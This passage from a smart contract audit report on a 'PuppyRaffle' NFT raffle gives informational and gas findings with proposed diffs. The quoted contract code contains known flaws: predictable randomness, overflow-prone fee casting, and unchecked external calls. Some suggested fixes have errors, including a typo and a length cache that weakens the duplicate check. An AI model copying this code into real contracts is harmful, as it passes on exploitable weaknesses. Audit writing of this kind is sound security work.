+   uint64 public s_totalFees = 0;

    // mappings to keep track of token traits

-   mapping(uint256 => uint256) public tokenIdToRarity;
+   mapping(uint256 => uint256) public s_tokenIdToRarity;

-   mapping(uint256 => string) public rarityToUri;
+   mapping(uint256 => string) public s_rarityToUri; 

-    mapping(uint256 => string) public rarityToName;
+   mapping(uint256 => string) public s_rarityToName;

    //@audit These stats are never updated.

    // Stats for the common puppy (pug)
-   string private commonImageUri =
        "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";
+   string private constant COMMON_IMAGE_URI =
        "ipfs://QmSsYRx3LpDAb1GZQm7zZ1AuHZjfbPkD6J7s9r41xu1mf8";

    // Stats for the rare puppy (st. bernard)
-   string private rareImageUri =
        "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";
+   string private constant RARE_IMAGE_URI =
        "ipfs://QmUPjADFGEKmfohdTaNcWhp7VGk26h5jXDA7v3VtTnTLcW";
    
    // Stats for the legendary puppy (shiba inu)
-   string private legendaryImageUri =
        "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";
+   tring private constant LEGENDARY_IMAGE_URI =
        "ipfs://QmYx6GsYAKnNzZ9A6NvEKV9nf1VaDzJrqDR23Y8YSkebLU";    

```

Also make appropriate changes wherein they appear in code.

### [I-3] `PuppyRaffle::RaffleEnter` event does not follow best events naming convention

**Description**
Events names should be past tense.

**Impact**

Events should track things that happened and so should be past tense. Using past tense also helps avoid naming collisions with structs or functions.

**Proof of Concepts**

```javascript
event RaffleEnter(address[] newPlayers);
```

**Recommended mitigation**

```diff
-   event RaffleEnter(address[] newPlayers);
+   event RaffleEntered(address[] newPlayers);
```

Also update event in the `PuppyRaffke::enterRaffle` function.

### [I-4] Lack of proper indexing of events could pose problematic search of events on blockchain

**Description**

The events of `PuppyRafflle` contracts lack necessary `index` keyword.

**Impact**

The indexed keyword allows event parameters to be searchable via logs, which is useful for quickly finding events in transaction history. 

**Proof of Concepts**

```javascript
event RaffleEnter(address[] newPlayers);
event RaffleRefunded(address player);
event FeeAddressChanged(address newFeeAddress);
```

**Recommended mitigation**

Include the `indexed` keyword in events declaration only. 

```diff
-   event RaffleRefunded(address player);
+   event RaffleRefunded(address indexed player);
-   event FeeAddressChanged(address newFeeAddress);
+   event FeeAddressChanged(address indexed newFeeAddress);
```

Since `indexed` keyword can't be used for the `address[]`, the following changes can be made

```diff
-   event RaffleEnter(address[] newPlayers);
+   event RaffleEnter(address indexed newPlayers);

function enterRaffle(address[] memory newPlayers) public payable {
        /*SNIPPED*/
        
      
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
            emit RaffleEnter(newPlayers[i]); // Emit event for each player
        }

        /*SNIPPED
}
```

### [I-5] Missing Events for key functions will make it difficult to track

**Description**

Certain functions like the `PuppyRaffle::selectWinner` and the `PuppyRaffle::withdrawFees` lack emitting events.

**Recommended mitigation**

Add appropriate indexed events.

```diff
+   event WinnerSelected(address indexed winner);
+   event FeesWithdrawn(address indexed caller, address indexed feeAddress, uint256 fees);
```

### [I-6] Unused `PuppyRaffle::_isACtive` function can be used for more robust checks in the `PuppyRaffle::refund` function

**Description**
The `PuppyRaffle::_isACtive` function checks if a player exists in the `PuppyRaffle::players` state variable array.

**Impact**

Rather than stay unused, it could provide better security for the `PuppyRaffle::refund` function.

**Proof of Concepts**

```javascript
function _isActivePlayer() internal view returns (bool) {
        for (uint256 i = 0; i < players.length; i++) {
            if (players[i] == msg.sender) {
                return true;
            }
        }
        return false;
    }
```

**Recommended mitigation**

The `PuppyRaffle::refund` function can be refactored as follows.

<details>
<summary>Code</summary>

```javascript

function refund(uint256 playerIndex) public {
    require(
        _isActivePlayer(),
        "PuppyRaffle: Only an active player can refund"
    );

    address playerAddress = players[playerIndex];
    require(
        playerAddress == msg.sender,
        "PuppyRaffle: Only the player can refund"
    );
    require(
        playerAddress != address(0),
        "PuppyRaffle: Player already refunded, or is not active"
    );

    // @audit Remove the player from the array before sending the refund (CEI pattern)
    players[playerIndex] = address(0);

    // Send the refund
    payable(playerAddress).sendValue(entranceFee); //@audit Ensure CEI pattern

    emit RaffleRefunded(playerAddress);
}

```

</details>

OR the function can be deprecated all together.

### [I-7] Use of floating and outdated solditiy versions is not best practice and poses security threats

**Description**

Using an outdated compiler version can be problematic especially if there are publicly disclosed bugs and issues that affect the current compiler version.

The codebase specifies a floating version of `^0.7.2`.


**Impact**

The issue of integer overflow/underflow as described in the `PuppyRaffle::selectWinner` function when calculating the `uint256 fees` and modifying state by adding to the `uint64 PuppyRaffle::totalFees` state variable that can lead to loss of fees for owner can be avoided by using solidity >= 0.8. Compile smart contracts with a newer version of the compiler. Thus, the preventive code of external libraries like SafeMath is embedded in the compiled code. Learn more [here](https://www.immunebytes.com/blog/explained-overflow-and-underflow-vulnerability-in-smart-contracts/).

**Proof of Concepts**

```javascript
    // SPDX-License-Identifier: MIT
@>  pragma solidity ^0.7.6;
```

**Recommended mitigation**

Use a locked version of a recent solidity compiler.

```diff
// SPDX-License-Identifier: MIT
-  pragma solidity ^0.7.6;
+ pragma solidity 0.8.x;

```

### [I-8] Undeclared arithmetic variables can cause difficulty understanding aritmetic operations in code

**Description**

In the `PuppyRaffle::selectWinner` function, during the  calculation of prize and fees from the `totalAmountCollected`, there aaaaaare certain unnamed arithmetic figures used for arithmetic operations

**Impact**

The presence of this practice can in the future confuse whoever is reading the code, including developers, as to what the numbers are about.

**Proof of Concepts**

```javascript
function selectWinner() external {
        
        require(
            block.timestamp >= raffleStartTime + raffleDuration,
            "PuppyRaffle: Raffle not over"
        ); /
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        
        uint256 winnerIndex = uint256(
            keccak256(
                abi.encodePacked(msg.sender, block.timestamp, block.difficulty)
            )
        ) % players.length;
        address winner = players[winnerIndex];
        
        uint256 totalAmountCollected = players.length * entranceFee;
@>      uint256 prizePool = (totalAmountCollected * 80) / 100;
@>      uint256 fee = (totalAmountCollected * 20) / 100;
        
        totalFees = totalFees + uint64(fee);

        uint256 tokenId = totalSupply(); 

        // We use a different RNG calculate from the winnerIndex to determine rarity
        uint256 rarity = uint256(
            keccak256(abi.encodePacked(msg.sender, block.difficulty))
        ) % 100; 
        if (rarity <= COMMON_RARITY) {
            tokenIdToRarity[tokenId] = COMMON_RARITY;
        } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
            tokenIdToRarity[tokenId] = RARE_RARITY;
        } else {
            tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
        }

        delete players;
        raffleStartTime = block.timestamp;
        previousWinner = winner;
        (bool success, ) = winner.call{value: prizePool}(""); 
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
    }

```

**Recommended mitigation**


```diff

+ uint256 private constant WINNER_PRIZE_PERCENTAGE = 80;
+ uint256 private constant OWNER_FEES_PERCENTAGE = 20;
+ uint256 private constant PERCENTAGE_PRECISION = 100;

function selectWinner() external {
        
        require(
            block.timestamp >= raffleStartTime + raffleDuration,
            "PuppyRaffle: Raffle not over"
        ); /
        require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        
        uint256 winnerIndex = uint256(
            keccak256(
                abi.encodePacked(msg.sender, block.timestamp, block.difficulty)
            )
        ) % players.length;
        address winner = players[winnerIndex];
        
        uint256 totalAmountCollected = players.length * entranceFee;
-       uint256 prizePool = (totalAmountCollected * 80) / 100;
+       uint256 prizePool = (totalAmountCollected * WINNER_PRIZE_PERCENTAGE) / PERCENTAGE_PRECISION;
-       uint256 fee = (totalAmountCollected * 20) / 100;
+       uint256 fee = (totalAmountCollected * OWNER_FEES_PERCENTAGE) / PERCENTAGE_PRECISION;
        
        totalFees = totalFees + uint64(fee);

        uint256 tokenId = totalSupply(); 

        // We use a different RNG calculate from the winnerIndex to determine rarity
        uint256 rarity = uint256(
            keccak256(abi.encodePacked(msg.sender, block.difficulty))
        ) % 100; 
        if (rarity <= COMMON_RARITY) {
            tokenIdToRarity[tokenId] = COMMON_RARITY;
        } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
            tokenIdToRarity[tokenId] = RARE_RARITY;
        } else {
            tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
        }

        delete players;
        raffleStartTime = block.timestamp;
        previousWinner = winner;
        (bool success, ) = winner.call{value: prizePool}(""); 
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
    }

```


# Gas 

### [G-1] Caching of storage state variables in functions and loops will help reduce gas cost

**Description**

The `PuppyRaffle` contract contains instances where iterable state storage variables were iterated in loops continuosly.

**Impact**

Reading from storage is expensive. And multiple iterable state variable reads from storage could have been avoided to a max of 1 time in any function.

**Proof of Concepts**

In the `for` loops of `PuppyRaffle::enterRaffle` and `PuppyRaffle::selectWinner` functions, the `PuppyRaffle::players` state variable has been iterated through multiple times.

<details>
<summary>PoC</summary>

```javascript

function enterRaffle(address[] memory newPlayers) public payable {
        
        require(
            msg.value == entranceFee * newPlayers.length,
            "PuppyRaffle: Must send enough to enter raffle"
        );
        
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
        }

        
        // Check for duplicates
@>      for (uint256 i = 0; i < players.length - 1; i++) {
@>        for (uint256 j = i + 1; j < players.length; j++) {
                require(
                    players[i] != players[j],
                    "PuppyRaffle: Duplicate player"
                );
            }
        }
        emit RaffleEnter(newPlayers);
    }

function selectWinner() external {
        
        require(
            block.timestamp >= raffleStartTime + raffleDuration,
            "PuppyRaffle: Raffle not over"
        ); /
@>      require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
        
        uint256 winnerIndex = uint256(
            keccak256(
                abi.encodePacked(msg.sender, block.timestamp, block.difficulty)
            )
@>      ) % players.length;
        address winner = players[winnerIndex];
        
@>      uint256 totalAmountCollected = players.length * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        
        totalFees = totalFees + uint64(fee);

        uint256 tokenId = totalSupply(); 

        // We use a different RNG calculate from the winnerIndex to determine rarity
        uint256 rarity = uint256(
            keccak256(abi.encodePacked(msg.sender, block.difficulty))
        ) % 100; 
        if (rarity <= COMMON_RARITY) {
            tokenIdToRarity[tokenId] = COMMON_RARITY;
        } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
            tokenIdToRarity[tokenId] = RARE_RARITY;
        } else {
            tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
        }

        delete players;
        raffleStartTime = block.timestamp;
        previousWinner = winner;
        (bool success, ) = winner.call{value: prizePool}(""); 
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
    }


```
</details>

**Recommended mitigation**

A local variable can be assigned the values of the iterable state variable once. This local variable ssshould now be called during the loops to avaoid expensive gas costs.

<details>
<summary>Mitigation</summary>

```diff

function enterRaffle(address[] memory newPlayers) public payable {
+       uint256 playersLength = players.length;

        // require(players.length <= 10, "PuppyRaffle: Need at max 10 players"); 
        require(
            msg.value == entranceFee * newPlayers.length,
            "PuppyRaffle: Must send enough to enter raffle"
        );
        //@audit iterating through the nePlayers[] doesn't count. It is not in storage, but memory, which is less expensive to read from
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
        }

        
        // Check for duplicates
-       for (uint256 i = 0; i < players.length - 1; i++) {
+       for (uint256 i = 0; i < playersLength - 1; i++) {
-           for (uint256 j = i + 1; j < players.length; j++) {
+           for (uint256 j = i + 1; j < playersLength; j++) {       
                require(
                    players[i] != players[j],
                    "PuppyRaffle: Duplicate player"
                );
            }
        }
        emit RaffleEnter(newPlayers);
    }

function selectWinner() external {
+       uint256 playersLength = players.length;

        require(
            block.timestamp >= raffleStartTime + raffleDuration,
            "PuppyRaffle: Raffle not over"
        ); /
-       require(players.length >= 4, "PuppyRaffle: Need at least 4 players");
+       require(playersLength >= 4, "PuppyRaffle: Need at least 4 players");

        
        uint256 winnerIndex = uint256(
            keccak256(
                abi.encodePacked(msg.sender, block.timestamp, block.difficulty)
            )
-       ) % players.length;
+       ) % playersLength;
        address winner = players[winnerIndex];
        
-       uint256 totalAmountCollected = players.length * entranceFee;
+       uint256 totalAmountCollected = playersLength * entranceFee;
        uint256 prizePool = (totalAmountCollected * 80) / 100;
        uint256 fee = (totalAmountCollected * 20) / 100;
        
        totalFees = totalFees + uint64(fee);

        uint256 tokenId = totalSupply(); 

        // We use a different RNG calculate from the winnerIndex to determine rarity
        uint256 rarity = uint256(
            keccak256(abi.encodePacked(msg.sender, block.difficulty))
        ) % 100; 
        if (rarity <= COMMON_RARITY) {
            tokenIdToRarity[tokenId] = COMMON_RARITY;
        } else if (rarity <= COMMON_RARITY + RARE_RARITY) {
            tokenIdToRarity[tokenId] = RARE_RARITY;
        } else {
            tokenIdToRarity[tokenId] = LEGENDARY_RARITY;
        }

        delete players;
        raffleStartTime = block.timestamp;
        previousWinner = winner;
        (bool success, ) = winner.call{value: prizePool}(""); 
        require(success, "PuppyRaffle: Failed to send prize pool to winner");
        _safeMint(winner, tokenId);
    }


```

</details>
